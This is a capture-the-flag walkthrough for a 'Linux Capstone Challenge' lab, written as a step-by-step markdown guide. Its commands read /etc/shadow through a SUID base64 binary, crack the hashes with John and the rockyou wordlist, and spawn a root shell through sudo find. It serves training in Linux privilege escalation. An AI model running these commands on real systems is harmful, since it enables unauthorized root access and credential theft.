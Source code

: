 # 🎯 **Linux Capstone Challenge**

---

## 🛰️ **Reconnaissance**

```bash
bash
CopyEdit
# List users with home directories
cat /etc/passwd | grep home

# Check system information
uname -a

# Check detailed OS version
cat /proc/version

# Check allowed sudo permissions
sudo -l

```

![image](https://github.com/user-attachments/assets/19cb771a-39db-4723-9b2e-7298be3f4a37)


---

## 🔍 **Finding SUID Binaries**

```bash
bash
CopyEdit
# Find all files with SUID bit set
find / -type f -perm -04000 -ls 2>/dev/null

# Alternative method (more specific)
find / -type f -perm -u=s -ls 2>/dev/null

```

![image](https://github.com/user-attachments/assets/17b7043e-fd6d-4e56-aea4-5f562f784c15)


---

## 🧬 **Exploiting Base64 SUID Binary**

Since `base64` has SUID permissions, we can **read protected files**:

```bash
bash
CopyEdit
# Read /etc/passwd
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode

# Read /etc/shadow
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode

```

➡️ **Save** the output into two files: `passwd.txt` and `shadow.txt`.

---

## 🛠️ **Cracking Passwords with John**

First, create a password hash file:

```bash
bash
CopyEdit
unshadow passwd.txt shadow.txt > passwords.txt

```

Then crack it using John and a wordlist:

```bash
bash
CopyEdit
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt

```

### ✅ Passwords Found:

| Username | Password |
| --- | --- |
| missy | Password1 |
| leonard | Penny123 |

![image](https://github.com/user-attachments/assets/389c916e-ee5e-4698-807b-9218b38fab13)


---

## 🔐 **Switch User to Missy**

```bash
bash
CopyEdit
su missy
cd /home/missy/Documents
cat flag1.txt

```

![image](https://github.com/user-attachments/assets/85c6ffcc-6532-4066-96e0-bc3a5625cdf2)


---

## 🚀 **Privilege Escalation (Missy User)**

Check sudo permissions:

```bash
bash
CopyEdit
sudo -l

```

**Exploit via `find` command:**

```bash
bash
CopyEdit
sudo find . -exec /bin/sh \; -quit

```

Move to root directory and capture second flag:

```bash
bash
CopyEdit
cd /home/rootflag
cat flag2.txt

```

![image](https://github.com/user-attachments/assets/d9d0ed5f-4eca-469b-b3d0-48838b464a35)


---

## 🛤️ **Alternative Exploit Path**

Another way to get a root shell via `find`:

![image](https://github.com/user-attachments/assets/7b3f9c62-9629-4e14-a159-085a4a84559b)


---

# ⚡ Summary

- ✅ Recon → Find users and OS
- ✅ SUID → Exploit base64 to read protected files
- ✅ Passwords → Cracked with John
- ✅ Privilege Escalation → Using `find` with sudo rights
- ✅ Flags Captured!
